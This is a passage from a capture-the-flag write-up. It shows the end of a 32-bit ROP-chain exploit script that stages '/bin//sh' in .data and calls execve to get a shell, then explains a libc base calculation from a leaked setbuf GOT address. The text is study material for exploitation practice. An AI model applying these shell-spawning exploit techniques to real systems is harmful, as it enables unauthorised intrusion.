 ```

# move //sh to .data+0x4
payload += p32(0x0806eb8b) #pop edx; ret; 
payload += p32(0x68732f2f) # //sh
payload += p32(0x08064564) #mov eax, edx; ret;
payload += p32(0x0806eb8b) #pop edx; ret;
payload += p32(0x080da064) #.data+0x4
payload += p32(0x08056c45) #mov dword ptr [edx], eax; ret; 

# move NULL to .data+0x8
payload += p32(0x0806eb8b) #pop edx; ret; 
payload += p32(0x00000000) #null
payload += p32(0x08064564) #mov eax, edx; ret;
payload += p32(0x0806eb8b) #pop edx; ret;
payload += p32(0x080da068) #.data+0x8
payload += p32(0x08056c45) #mov dword ptr [edx], eax; ret; 

# run execve(.data, NULL, NULL) --> .data contains out /bin//sh string
payload += p32(0x08056114) #pop eax; pop edx; pop ebx; ret;
payload += p32(0x0000000b) #syscall number 0xb
payload += p32(0x00000000) #null
payload += p32(0x080da060) #.data
payload += p32(0x0806ef51) #xor ecx, ecx; int 0x80;

p.sendline(payload)

p.interactive()
```

roproprop
===========================
Flag: FLAG{}

General overview of problems faced
-------------------------------------
In my opinion, this challenge was pretty easy (especially in comparison to static which confused me). Didn't have any issues here since we were given a leaked address already.

Script/Command used (Writeup)
------------------
We're given an address leak, so we take a look at what that is in the assembly:
```
call    setbuf
add     esp, 0x8
mov     eax, dword [ebx+0x1c]  {setbuf@GOT}
push    eax {var_c}
lea     eax, [ebx-0x1885]  {data_743, "- %p -\n"}
push    eax  {data_743, "- %p -\n"}
call    printf
```
As we can see the address being printed is the GOT entry for `setbuf`. However since `setbuf` is called before it, this means the GOT entry is updated to contain the actual libc address for `setbuf`. We can then subtract the libc offset of setbuf from this leak and get the libc base address.
